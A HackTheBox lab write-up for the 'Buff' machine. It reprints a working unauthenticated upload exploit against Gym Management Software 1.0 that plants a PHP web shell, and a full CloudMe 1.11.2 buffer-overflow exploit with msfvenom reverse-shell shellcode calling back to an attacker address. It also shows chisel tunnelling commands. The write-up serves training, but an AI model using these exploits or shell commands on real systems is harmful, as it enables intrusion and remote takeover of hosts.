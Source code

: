 ```yaml
---
image: /assets/avatars/buff.png
title: Buff Writeup
author: Valerio Casalino
style: fill
color: success
tags: [Writeups, Hackthebox]
description: <img src="/assets/avatars/buff.png"> Writeup for Buff (Hackthebox)
---
```


# Buff

As always, an `nmap` scan is mandatory:

```bash
sudo nmap -sC -sV -oN nmap/initial 10.10.10.198
...
Nmap scan report for 10.10.10.198
Host is up (0.17s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut
```

Enumerating more ports, we can find:

```bash
sudo nmap -sC -sV -oN nmap/full -p- 10.10.10.198
...
Not shown: 65533 filtered ports
PORT     STATE SERVICE    VERSION
7680/tcp open  pando-pub?
```

Going to port 8080, we find a gym website:

![image-20201022200250269](/assets/buff/image-20201022200250269.png)

There is a login form, but before trying anything, we should fuzz around. In `contacts.php`, there is an important information about the framework used: "Gym Management Software 1.0". Looking with `searchsploit` or with a simple Google search, we find a [good unauthenticated](https://www.exploit-db.com/exploits/48506) RCE to use.

So, the point is that this software does not check for an authenticated user session when accessing `/upload.php`, so we can upload a file containing PHP code with a double extension to trick the extension white-list and with a custom Content-type to trick the mime checker. More info in [the exploit-db page](https://www.exploit-db.com/exploits/48506).

```python
import requests, sys, urllib, re
from colorama import Fore, Back, Style
requests.packages.urllib3.disable_warnings(requests.packages.urllib3.exceptions.InsecureRequestWarning)

def webshell(SERVER_URL, session):
    try:
        WEB_SHELL = SERVER_URL+'upload/lolz.php'
        getdir  = {'telepathy': 'echo %CD%'}
        r2 = session.get(WEB_SHELL, params=getdir, verify=False)
        status = r2.status_code
        if status != 200:
            print Style.BRIGHT+Fore.RED+"[!] "+Fore.RESET+"Could not connect to the webshell."+Style.RESET_ALL
            r2.raise_for_status()
        print(Fore.GREEN+'[+] '+Fore.RESET+'Successfully connected to webshell.')
        cwd = re.findall('[CDEF].*', r2.text)
        cwd = cwd[0]+"> "
        term = Style.BRIGHT+Fore.GREEN+cwd+Fore.RESET
        while True:
            thought = raw_input(term)
            command = {'telepathy': thought}
            r2 = requests.get(WEB_SHELL, params=command, verify=False)
            status = r2.status_code
            if status != 200:
                r2.raise_for_status()
            response2 = r2.text
            print(response2)
    except:
        print("\r\nExiting.")
        sys.exit(-1)

def formatHelp(STRING):
    return Style.BRIGHT+Fore.RED+STRING+Fore.RESET

def header():
    BL   = Style.BRIGHT+Fore.GREEN
    RS   = Style.RESET_ALL
    FR   = Fore.RESET
    SIG  = BL+'            /\\\n'+RS
    SIG += Fore.YELLOW+'/vvvvvvvvvvvv '+BL+'\\'+FR+'--------------------------------------,\n'
    SIG += Fore.YELLOW+'`^^^^^^^^^^^^'+BL+' /'+FR+'============'+Fore.RED+'BOKU'+FR+'====================="\n'
    SIG += BL+'            \/'+RS+'\n'
    return SIG

if __name__ == "__main__":
    print header();
    if len(sys.argv) != 2:
        print formatHelp("(+) Usage:\t python %s <WEBAPP_URL>" % sys.argv[0])
        print formatHelp("(+) Example:\t python %s 'https://10.0.0.3:443/gym/'" % sys.argv[0])
        sys.exit(-1)
    SERVER_URL = sys.argv[1]
    UPLOAD_DIR = 'upload.php?id=lolz'
    UPLOAD_URL = SERVER_URL + UPLOAD_DIR
    s = requests.Session()
    s.get(SERVER_URL, verify=False)
    PNG_magicBytes = '\x89\x50\x4e\x47\x0d\x0a\x1a'
    png     = {
                'file': 
                  (
                    'much-lolz.php.png', 
                    PNG_magicBytes+'\n'+'<?php echo shell_exec($_GET["telepathy"]); ?>', 
                    'image/png', 
                    {'Content-Disposition': 'form-data'}
                  ) 
              }
    fdata   = {'pupload': 'upload'}
    r1 = s.post(url=UPLOAD_URL, files=png, data=fdata, verify=False)
    webshell(SERVER_URL, s)
```

Then run it:

```bash
python2 ./48505.py "http://10.10.10.198:8080/"
```

![image-20201022233828363](/assets/buff/image-20201022233828363.png)

If you immediately want the user flag, you should run this command.

```bash
curl -G --data-urlencode "telepathy=type C:\\Users\\shaun\\Desktop\\user.txt" "http://10.10.10.198:8080/upload/lolz.php"
```

So, you can put `nc.exe` in the target machine starting a python server on the attacker, using:

```bash
python3 -m http.server
```

You can find `nc.exe` in the package "windows-binaries" `/usr/share/windows/windows-binaries` (may vary).

Enumerate with [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) and look at `shaun`'s download folder, there you can find `CloudMe_1112.exe`, with a `searchsploit` we can find the [great privesc exploit](https://www.exploit-db.com/exploits/48389). We have to edit some infos

```bash
# Put the output in the python file
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.51 LPORT=9001 -b '\x00\x0a\x0d' -f py -v payload
```

So in the end the python file should look like this:

```python
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

#Instructions:
# Start the CloudMe service and run the script.

import socket

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.51 LPORT=9001 -b '\x00\x0a\x0d' -f py -v payload
payload =  b""
payload += b"\xda\xc0\xba\x4c\x4d\xf4\xbe\xd9\x74\x24\xf4\x5e"
payload += b"\x31\xc9\xb1\x52\x31\x56\x17\x83\xc6\x04\x03\x1a"
payload += b"\x5e\x16\x4b\x5e\x88\x54\xb4\x9e\x49\x39\x3c\x7b"
payload += b"\x78\x79\x5a\x08\x2b\x49\x28\x5c\xc0\x22\x7c\x74"
payload += b"\x53\x46\xa9\x7b\xd4\xed\x8f\xb2\xe5\x5e\xf3\xd5"
payload += b"\x65\x9d\x20\x35\x57\x6e\x35\x34\x90\x93\xb4\x64"
payload += b"\x49\xdf\x6b\x98\xfe\x95\xb7\x13\x4c\x3b\xb0\xc0"
payload += b"\x05\x3a\x91\x57\x1d\x65\x31\x56\xf2\x1d\x78\x40"
payload += b"\x17\x1b\x32\xfb\xe3\xd7\xc5\x2d\x3a\x17\x69\x10"
payload += b"\xf2\xea\x73\x55\x35\x15\x06\xaf\x45\xa8\x11\x74"
payload += b"\x37\x76\x97\x6e\x9f\xfd\x0f\x4a\x21\xd1\xd6\x19"
payload += b"\x2d\x9e\x9d\x45\x32\x21\x71\xfe\x4e\xaa\x74\xd0"
payload += b"\xc6\xe8\x52\xf4\x83\xab\xfb\xad\x69\x1d\x03\xad"
payload += b"\xd1\xc2\xa1\xa6\xfc\x17\xd8\xe5\x68\xdb\xd1\x15"
payload += b"\x69\x73\x61\x66\x5b\xdc\xd9\xe0\xd7\x95\xc7\xf7"
payload += b"\x18\x8c\xb0\x67\xe7\x2f\xc1\xae\x2c\x7b\x91\xd8"
payload += b"\x85\x04\x7a\x18\x29\xd1\x2d\x48\x85\x8a\x8d\x38"
payload += b"\x65\x7b\x66\x52\x6a\xa4\x96\x5d\xa0\xcd\x3d\xa4"
payload += b"\x23\xf8\xcb\xa8\x80\x94\xc9\xb4\xc5\x4d\x47\x52"
payload += b"\x63\x9e\x01\xcd\x1c\x07\x08\x85\xbd\xc8\x86\xe0"
payload += b"\xfe\x43\x25\x15\xb0\xa3\x40\x05\x25\x44\x1f\x77"
payload += b"\xe0\x5b\xb5\x1f\x6e\xc9\x52\xdf\xf9\xf2\xcc\x88"
payload += b"\xae\xc5\x04\x5c\x43\x7f\xbf\x42\x9e\x19\xf8\xc6"
payload += b"\x45\xda\x07\xc7\x08\x66\x2c\xd7\xd4\x67\x68\x83"
payload += b"\x88\x31\x26\x7d\x6f\xe8\x88\xd7\x39\x47\x43\xbf"
payload += b"\xbc\xab\x54\xb9\xc0\xe1\x22\x25\x70\x5c\x73\x5a"
payload += b"\xbd\x08\x73\x23\xa3\xa8\x7c\xfe\x67\xd8\x36\xa2"
payload += b"\xce\x71\x9f\x37\x53\x1c\x20\xe2\x90\x19\xa3\x06"
payload += b"\x69\xde\xbb\x63\x6c\x9a\x7b\x98\x1c\xb3\xe9\x9e"
payload += b"\xb3\xb4\x3b"

overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))	

buf = padding1 + EIP + NOPS + payload + overrun 

try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target,8888))
	s.send(buf)
except Exception as e:
	print(sys.exc_value)
```

We need to run a http reverse tunnel using [chisel](https://github.com/jpillora/chisel/releases):

```bash
# On attacker
./chisel-linux server -p 8080 -reverse
```

![image-20201023002602151](/assets/buff/image-20201023002602151.png)

```powershell
# On victim
.\chisel.exe client 10.10.14.51:8080 R:8888:127.0.0.1:8080
```

![image-20201023002643050](/assets/buff/image-20201023002643050.png)

Now we can run the exploit on attacher machine!

![image-20201023025910927](/assets/buff/image-20201023025910927.png)

Hopping to another shell we have to wait for connections on netcat, then run the exploit above! We'll get a reverse shell as root :) so... profit.
